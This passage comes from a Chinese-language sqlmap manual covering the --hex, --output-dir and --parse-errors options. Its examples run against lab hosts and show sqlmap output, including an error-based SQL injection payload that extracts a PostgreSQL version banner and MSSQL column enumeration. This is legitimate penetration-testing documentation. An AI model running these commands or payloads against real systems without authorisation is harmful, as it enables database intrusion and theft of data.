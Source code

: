 有时候字符编码的问题，可能导致数据丢失，可以使用hex函数来避免：

针对PostgreSQL例子：
```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors
 
[...]
[xx:xx:14] [INFO] fetching banner
[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:  invalid input syntax for type numeric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c202844656269616e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.php</b> on line <b>35</b>'
[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by
GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
[...]
```
自定义输出的路径

参数：`--output-dir`

sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径 例如：`--output-dir=/tmp`
从响应中获取DBMS的错误信息

参数：`--parse-errors`

有时目标没有关闭DBMS的报错，当数据库语句错误时，会输出错误语句，用此参数可以显示出错误信息。
```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --parse-errors
[...]
[11:12:17] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] target URL appears to have 3 columns in query
[...]
```
其他的一些参数
使用参数缩写
